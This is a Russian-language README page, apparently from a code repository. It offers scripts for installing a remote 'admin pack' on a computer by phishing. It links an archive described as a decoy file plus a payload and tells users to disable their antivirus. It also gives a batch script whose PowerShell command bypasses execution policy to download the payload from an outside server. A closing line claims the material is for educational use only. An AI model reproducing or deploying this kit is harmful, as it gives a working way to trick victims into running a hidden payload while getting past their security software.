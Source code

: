 # Загрузка файлов

**Внимание!!!** Антивирусы могут определять этот набор скриптов как
содержащие вирус. Запускайте скрипты при отключённом антивирусе или
добавьте исключения антивируса.

Данный каталог содержит набор скриптов для установки админ-пака методом фишинга.

На этой странице предлагается загрузка следующих файлов:

- [mainexample.zip](http://distrib.netip6.ru/NIT/NIT-SilentInstalls/MainExample/download.php?file=mainexample.zip)
  — Архив, содержащий отвлекающий файл и полезную нагрузку. **Внимание!!!**   Данный файл не защищён паролем, поэтому при его загрузке активные антивирусы его сразу же уничтожают. Вначале добавте исключения в ваш антивирус или отключите антивирус во время загрузки и запуска файла!

Файлы реализуют различные функции на удалённом компьютере.

## Загрузка файлов из командной строки (универсальный вариант)

**Примечание**. Переменная *%WorkingDir%* должна обязательно указывать на папку «Загрузки» пользователя. По умолчанию она располагается в %USERPROFILE%\Downloads. Если это не так, вручную изменить данную инструкцию. Из-за ограничений командной строки авторы не могут использовать скрипт для определения истинного положения папки «Загрузки».

Покомандно, последовательно выполните следующий скрипт:

```bash
@echo on
rem *******************************************************
rem nit-silentinstall.mainexample.scripts.download.cmd
rem This Script will Download an Archive
rem *******************************************************
@echo off

rem Set Variables
rem

rem Set a Directory
set WorkingDir=%USERPROFILE%\Downloads
set anURLDir=http://distrib.netip6.ru/NIT/NIT-SilentInstalls/MainExample/

set aFile=mainexample.zip

rem Run payload
powershell.exe -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command ^
"((new-object System.Net.WebClient).DownloadFile('%anURLDir%%aFile%', '%WorkingDir%\%aFile%'))"

```

После загрузки файлов распакуйте архив, и выполните действия, описанные в инструкции. 

*Внимание!* Здесь приведены только скрипты загрузки архивов. Для их распаковки и запуска скриптов может потребоваться графическая оболочка.

## Замечания о применении скрипта

Используйте данный скрипт только в образовательных, некоммерческих целях! Любое злонамеренное использование данной программы преследуется по закону!

## Лицензия

Данная программа и сопутствующие скрипты распространяются под лицензией GNU GPLv3.

